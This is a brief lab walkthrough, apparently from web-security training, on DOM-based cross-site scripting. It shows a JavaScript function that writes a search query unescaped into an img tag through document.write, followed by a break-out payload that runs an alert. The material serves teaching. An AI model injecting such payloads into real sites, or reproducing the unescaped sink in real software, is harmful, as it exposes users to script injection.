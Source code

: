 # Lab: DOM XSS in document.write sink using source location.search

Enter a search query. Inspect the resulting page to see that the query is inserted into an img src attribute:

```
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```

Use the following query to break out: `"><svg onload=alert(1)>`